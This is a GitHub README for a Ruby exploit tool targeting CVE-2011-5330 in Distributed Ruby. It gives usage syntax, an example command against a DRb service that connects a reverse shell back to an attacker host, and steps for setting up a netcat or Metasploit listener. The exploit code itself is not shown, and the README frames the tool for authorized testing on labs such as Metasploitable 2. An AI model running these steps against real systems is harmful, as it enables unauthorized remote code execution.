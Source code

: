 # drbpwn

## Description
CVE-2011-5330 exploit in ruby. 
This Ruby script provides a workaround for exploiting Distributed Ruby (DRb) vulnerabilities using instance_eval and syscall methods. It aims to serve as an alternative to the missing Metasploit module for DRb exploitation. While the Metasploit module might reappear in future versions, this script can be utilized in the meantime when other exploits are not readily available. This vulnerability, designated CVE-2011-5330, highlights flaws in Distributed Ruby (DRb) 1.8 related to the handling of syscalls.

## Usage
To use the script, follow the syntax below:

```ruby drbpwn.rb <target_host> <target_port> <attacker_host> [<attacker_port>]```

### Arguments
- `<target_host>`: The hostname or IP address of the target machine.
- `<target_port>`: The port number on which the DRb service is running on the target machine.
- `<attacker_host>`: The hostname or IP address of the attacker machine.
- `[<attacker_port>]`: (Optional) The port number on which attacker is listening. Defaults to `4444` if not provided.

- Note: Before running this script, make sure the attacker machine is listening for incoming connections on the designated port using netcat (nc) or Metasploit's multi/handler.

## Example
```ruby drbpwn.rb 192.168.0.100 8787 192.168.0.107```


In this example, the script will attempt to exploit the DRb service running on `192.168.0.100` at port `8787` and connect back to attacker at 192.168.0.107 at port 4444

## Note
Ensure that you have proper authorization before attempting to exploit any system. This script is provided for educational purposes and should only be used in environments where you have explicit permission to do so. Also, this script can be used to exploit the vulnerable service running on the Metasploitable 2 VM on port 8787.
